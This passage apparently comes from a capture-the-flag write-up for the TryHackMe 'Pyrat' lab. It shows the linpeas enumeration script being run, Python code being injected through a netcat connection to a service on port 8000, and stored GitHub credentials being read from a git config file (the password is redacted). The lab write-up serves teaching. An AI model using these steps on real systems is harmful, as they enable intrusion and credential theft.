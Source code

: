 ```console

2024-10-05 23:09:01 (89.6 KB/s) - 'linpeas.sh' saved [824942/824942]

$ ls
linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```
## Finding
1. Firstly
![Desktop View](/images/tryhackme_pyrat/finding1.webp){: width="972" height="589" }
the is python script under the root folder witch is the same folder of our HTTP server in the port 8000 I knew that using this test but we don’t have access to the root folder but 90% this file who is responsible for the HTTP server
```console
$ nc 10.10.118.186 8000
import os; print(os.getcwd())
/root
```
2. Secondly
![Desktop View](/images/tryhackme_pyrat/finding2.webp){: width="972" height="589" }

```console
www-data@Pyrat:~$ cat /opt/dev/.git/config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = [REDACTED]
```
## Shell as think
